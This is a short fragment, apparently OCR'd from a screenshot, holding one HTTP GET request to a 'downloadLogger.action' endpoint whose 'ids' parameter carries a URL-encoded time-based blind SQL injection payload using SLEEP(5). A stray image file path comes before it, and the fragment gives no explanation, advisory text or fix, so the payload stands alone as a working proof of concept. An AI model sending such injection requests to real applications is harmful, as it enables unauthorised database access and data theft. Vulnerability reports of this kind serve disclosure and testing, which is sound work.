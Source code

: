 GET /edu securityofficer/disable;downloadLogger.action?
ids=I+AND+%28SELECT+ 2688+FROM+
%28SELECT%28SLEEP%285%29%29%29kOIi%29 HTTP/1.1